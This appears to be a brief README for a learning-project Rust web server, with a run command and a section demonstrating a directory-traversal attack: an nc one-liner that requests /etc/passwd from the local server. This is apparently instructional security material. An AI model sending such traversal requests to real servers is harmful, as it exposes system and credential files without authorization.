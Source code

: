 ## webserver

Chapter.4

## How to run

```
cargo run 127.0.0.1 8080
```

Access http://localhost:8080/index.html

## Attack by directory traversal

It's dangerous command

```
echo -en "GET /../../../../../../../../etc/passwd HTTP/1.1\r\n" | nc localhost 8080
```
